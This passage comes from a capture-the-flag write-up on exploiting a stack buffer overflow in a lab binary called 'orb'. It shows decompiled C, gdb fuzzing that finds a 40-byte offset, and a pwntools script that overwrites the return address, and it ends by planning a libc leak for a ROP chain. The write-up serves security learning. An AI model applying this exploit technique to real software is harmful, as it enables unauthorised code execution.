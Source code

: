 ```c
  write(1,&DAT_00402008,0xeb);
  read(0,&buffer,256);
  write(1,"\nThis spell does not seem to work..\n\n",0x26);
  return 0;
}

```

* Running the binary, we note that the binary accepts our input and then prints `This spell does not seem to work`
![ㅤ](../../../images/PlayCyber/20240130120313.png)

* We can now open the binary in `gdb` for debugging. Since the application accepts user input, we craft an input of `300 bytes` and give it to the program 
![ㅤ](../../../images/PlayCyber/20240130120717.png)
* After a while, the program segfaults indicating a probable buffer overflow. We can then calculate the offset to determine after how many bytes the buffer overflow occurs
![ㅤ](../../../images/PlayCyber/20240130120619.png)
* Now that we know that the offset is `40`, we can test if we can overwrite the return address and  redirect the program's execution to other functions e.g main
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#  @author: Remac
from pwn import *
from sys import argv as arguments
filename="./orb_patched"
context.binary = elf = e=ELF(filename)
target=process([filename])

offset=40
payload=b"A"*offset
payload+=p64(elf.sym['main'])


x=(target.recvuntil("Cast spell: "))
print(x.decode())
target.sendline(payload)
target.interactive()

```

![ㅤ](../../../images/PlayCyber/20240130121601.png)

* From the above image, we successfully managed to redirect the program's execution back to main. We can try to build a rop chain to redirect the program's execution to other locations e.g libc functions. But before that, we need to find a way to leak the libc base.
* Checking some of the functions in the binary, we find that the write function is present , which we can use to leak memory address in the `bss` section of the binary
![ㅤ](../../../images/PlayCyber/20240130121814.png)
